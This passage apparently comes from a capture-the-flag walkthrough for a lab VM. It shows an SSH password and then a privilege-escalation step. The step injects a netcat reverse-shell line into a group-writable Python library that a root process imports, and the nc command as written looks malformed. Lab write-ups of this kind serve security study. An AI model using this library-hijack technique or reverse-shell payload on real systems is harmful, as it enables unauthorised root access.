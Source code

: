 `hades: PTpZTfU4vxgzvRBE`

using these credentials we can login into hades SSH account.

***

## Vertical Privilege escalation

One thing we know is that there isn't anything like SUID. I even checked the `sudo` right but `sudo` command was not found.

The only interesting thing we know about the system is that there's file called `ftpclient.py` in `/opt/ftpclient/` running as `root`, we saw that in `pspy` output. And it connects with ftp using `ftplib.py`. If we can edit that(`ftplib.py`)imported file we can get a root reverse shell through that.

But first we should see if we have permission to edit python libraries or not.

![](images/sym3/ftplib-perms.png)

We can see that `ftplib.py` can be edited by `gods` group and current user i.e `hades` belong to that group. So we can add the following lines in the starting of the `ftplib.py` right after the `imports`:

```python
import os
os.system("nc -e 192.168.1.107 4444 >/tmp/f")
```

![](images/sym3/exploit.png)
